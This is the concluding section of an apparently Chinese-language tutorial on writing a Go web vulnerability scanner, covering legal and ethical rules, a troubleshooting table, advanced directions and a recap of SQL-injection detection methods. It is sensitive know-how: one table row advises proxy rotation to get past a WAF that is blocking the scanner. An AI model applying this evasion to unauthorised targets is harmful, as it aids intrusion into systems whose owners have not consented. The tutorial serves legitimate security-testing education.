1. **授权原则**：只扫描你拥有或获得书面授权的目标。未经授权的扫描在大多数国家属于违法行为。
2. **范围控制**：严格限制扫描范围，避免扫描到非目标系统。使用速率限制避免对目标造成DoS。
3. **数据处理**：扫描发现的漏洞信息属于敏感数据，应加密存储，限制访问权限。
4. **漏洞披露**：发现第三方系统的漏洞时，应通过负责任的披露流程通知对方。
5. **生产环境**：避免在生产环境进行破坏性测试（如SQL注入的DROP TABLE payload）。

### 常见错误与排查

| 错误现象 | 原因 | 解决方案 |
|---------|------|---------|
| 大量超时 | 并发数过高，目标或本地资源耗尽 | 降低并发数，增加超时时间 |
| 所有请求都返回相同响应 | 目标有WAF，返回403/拦截页 | 添加代理轮换，降低请求频率 |
| 误报率高 | 检测逻辑过于简单 | 增加确认步骤，对比基线响应 |
| 漏报率高 | payload不够全面 | 增加编码变体，使用时间盲注补充 |
| 内存溢出 | 大响应未限制读取 | 使用 `io.LimitReader` 限制读取大小 |
| 数据竞争 | 共享变量未加锁 | 使用 `-race` 标志检测，添加互斥锁 |

### 进阶方向

掌握本案例后，可以向以下方向深入：

1. **插件系统**：用Go的 `plugin` 包或接口注册机制实现动态加载检测模块
2. **爬虫集成**：先爬取目标站点的所有页面和参数，再对每个入口点进行扫描
3. **认证扫描**：支持Cookie、Token、OAuth等认证方式，扫描需要登录的页面
4. **分布式架构**：将扫描任务分发到多个节点，通过Redis/RabbitMQ协调
5. **被动扫描**：作为HTTP代理拦截流量，在不主动发包的情况下分析请求中的漏洞
6. **AI辅助**：用机器学习模型分析响应内容，降低误报率

### 本案例核心要点回顾

- Go的goroutine+channel模型天然适合编写高并发网络扫描工具
- 信号量模式是控制goroutine并发度的标准方法
- 漏洞检测的核心是：发送特定payload→分析响应→确认漏洞存在
- 多种检测策略（错误消息、布尔盲注、时间盲注）互补，提高覆盖率
- 生产环境需要代理支持、速率控制、重试机制、OOB验证
- 法律合规是安全扫描的第一前提
